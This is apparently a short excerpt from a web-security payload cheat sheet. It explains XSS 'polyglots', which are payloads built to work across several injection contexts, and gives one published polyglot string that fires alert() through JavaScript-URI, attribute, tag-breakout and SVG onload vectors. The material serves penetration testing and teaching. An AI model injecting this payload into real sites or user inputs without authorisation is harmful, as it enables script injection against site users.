 #### Polyglots
Polyglots are payloads that can be injected and cover multiple different contexts that the payload can be injected into.
```
#https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

